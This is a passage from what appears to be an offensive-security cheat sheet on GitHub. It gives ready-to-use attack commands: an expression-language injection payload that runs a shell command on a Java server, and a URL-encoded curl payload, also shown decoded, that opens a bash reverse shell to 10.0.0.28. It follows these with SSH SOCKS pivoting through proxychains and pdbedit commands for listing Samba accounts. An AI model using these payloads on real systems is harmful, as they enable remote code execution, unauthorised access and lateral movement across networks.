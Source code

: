 ```
${@java.lang.Runtime@getRuntime().exec("touch /tmp/r7")}
```

Reverse Shell:

```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

Decoded:

```
${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}
```

 ## SSH Dynamic Port Forwarding:
 
 Forwards one local port to multiple remote hosts; it is useful for accessing multiple systems.
 
 ```
 $ ssh -D 9000 RoseSecurity@pivot.machine
 ```
 
 Now, an attacker could utilize a SOCKS proxy or proxychains to access the systems.
 
 ```
 $ proxychains smbclient -L fileserver22
 ```
 ## Dominating Samba with pdbedit:
 
 The ```pdbedit``` program is used to manage the users accounts stored in the sam database and can only be run by root. There are five main ways to use pdbedit: adding a user account, removing a user account, modifying a user account, listing user accounts, importing users accounts.

Options:

Lists all the user accounts present in the users database. This option prints a list of user/uid pairs separated by the ':' character.

```
# pdbedit -L

sorce:500:Simo Sorce
samba:45:Test User
```

Enables the verbose listing format. It causes pdbedit to list the users in the database, printing out the account fields in a descriptive format.

```
# pdbedit -L -v

---------------
username:       sorce
user ID/Group:  500/500
user RID/GRID:  2000/2001
Full Name:      Simo Sorce
Home Directory: \\BERSERKER\sorce
HomeDir Drive:  H:
Logon Script:   \\BERSERKER\netlogon\sorce.bat
Profile Path:   \\BERSERKER\profile
---------------
username:       samba
user ID/Group:  45/45
user RID/GRID:  1090/1091
Full Name:      Test User
Home Directory: \\BERSERKER\samba
```